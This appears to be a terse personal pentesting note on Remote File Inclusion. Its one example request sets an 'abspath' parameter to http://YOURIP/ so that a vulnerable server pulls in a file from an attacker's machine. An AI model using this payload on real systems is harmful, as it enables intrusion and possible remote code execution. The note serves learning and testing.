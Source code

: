 
# Remote File Inclusion

Aim some files to other server (e.x --> You can aim to a your attacker machine)

---

## Example


> localhost/...?abspath=http://YOURIP/

---

# Tags

#rfi 

---
